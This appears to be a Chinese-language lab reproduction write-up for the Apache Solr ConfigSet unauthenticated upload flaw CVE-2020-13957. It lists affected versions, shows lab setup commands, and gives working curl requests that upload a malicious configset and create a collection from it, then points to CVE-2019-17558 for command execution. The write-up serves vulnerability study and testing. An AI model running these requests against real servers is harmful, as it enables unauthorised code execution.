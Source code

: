 ```yaml
---
title: Apache Solr RCE 未授权上传漏洞 CVE-2020-13957
---
```


# Apache Solr RCE 未授权上传漏洞 CVE-2020-13957

## 漏洞描述

在特定的Solr版本中ConfigSet API存在未授权上传漏洞，攻击者利用漏洞可实现远程代码执行。

## 影响版本

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

## 环境搭建

选择一个存在漏洞的版本, 这里复现使用的是 `Apache Solr 7.7.0` 进行复现, 下载后执行以下命令进行环境部署

```shell
cd solr-7.7.0
./bin/solr start -e cloud -force
```

然后一路回车，直至出现

```shell
Created collection 'gettingstarted' with 2 shard(s), 2 replica(s) with config-set 'gettingstarted'

Enabling auto soft-commits with maxTime 3 secs using the Config API

POSTing request to Config API: http://localhost:8983/solr/gettingstarted/config
{"set-property":{"updateHandler.autoSoftCommit.maxTime":"3000"}}
Successfully set-property updateHandler.autoSoftCommit.maxTime to 3000


SolrCloud example running, please visit: http://localhost:8983/solr
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

在攻击机上下载目标版本的Solr,执行下列命令打包压缩文件

```plain
solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf
zip -r - * > vuln.zip
```

![540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f](../../../.vuepress/public/img/540ba570-fe93-4fc6-b7fd-f5a5a7fc8f3f.png)

将 vuln.zip 进行上传

```shell
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @vuln.zip "http://xxx.xxx.xxx.xxx:8983/solr/admin/configs?action=UPLOAD&name=vuln"
```

name参数为压缩包的文件名, 利用漏洞创建一个 core

```shell
curl "http://xxx.xxx.xxx.xxx:8983/solr/admin/collections?action=CREATE&name=peiqi&numShards=1&replicationFactor=1&wt=xml&collection.configName=vuln"
```

<a-alert type="success" message="name参数为创建的core核心名" description="" showIcon>
</a-alert>

<a-alert type="success" message="collection.configName参数为上传的文件名" description="" showIcon>
</a-alert>
<br/>
再使用 Apache Solr Velocity模板远程执行`CVE-2019-17558` 即可执行任意命令
